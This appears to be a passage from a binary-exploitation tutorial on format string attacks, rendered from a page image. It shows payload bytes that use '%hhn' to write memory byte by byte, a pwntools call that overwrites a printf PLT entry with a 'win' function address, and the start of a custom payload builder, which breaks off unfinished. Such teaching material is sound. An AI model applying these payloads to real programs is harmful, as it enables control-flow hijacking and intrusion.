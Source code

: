 ```python
    payload += b"%79c%4$hhn"            # @0x85 <- 0x85 - 0x36

    # --- Where the value we wish 
    # to write is negative we
    # can overflow the value to
    # the desired one by adding
    # 0x100 padding to wrap around
    payload += b"%127c%5$hhn"           # @0x04 <- (0x04 - 0x85) + 0x100
    payload += b"%4c%6$hhn"             # @0x08 <- (0x08 - 0x04)
```
+ Note the changing byte reference alongside the format specifier 
+ In many cases your address in the buffer will be further away then the example demonstrates and thus the referenced bytes will need to be changed accordingly 

## Automated Format Sting Payloads

As will often be the case enabled memory protections will prevent the hardcoding of addresses in format string payloads meaning that they will need to be constructed dynamically using a leak and offset calculations. Furthermore the process of constructing format string payloads is repetitive and the code largely unchanging. 

Hence, [pwntools](../tooling#pwntools) implements a function to automatically construct format string payloads. An example usage is bellow.


```python
bytes_offset = 2

addr_val = 0x0809879d       # win function
target_addr = 0x0809183b    # printf plt

#                        start bytes
payload = fmtstr_payload(bytes_offset, {target_addr: addr_val}, numbwritten=1, write_size='byte')
```

**However**, this library function has a critical flaw. It often writes more bytes then are required to actually write the desired value to memory, this often leads to corruption of the stack. Hence it is often useful to have your own library function to construct format string payloads that writes the smallest possible number of bytes. Such a function may look like the following.


```python
""" Custom Builder for format string payloads """

# Wrapper constant
WRAP = 0x100
# Account for already written bytes
ADJUST = 16

'''
► <int> target                :: Address to write to
► <int, 16> goal              :: Value to write
► <int> start_byte            :: Index of lowest byte (buffer position)
'''

def build(target, goal, start_byte=1, max_write=4):
    # >->  Goal Construction  <-<
    bytes = [
        (goal & 0x000000FF), 
        (goal & 0x0000FF00) >> 0x8, 
        (goal & 0x00FF0000) >> 0x10, 
        (goal & 0xFF000000) >> 0x18
    ]

    # >->  Target Construction  <-<
    payload = b''.join([p32(target + offt) for offt in range(0, 4)])
```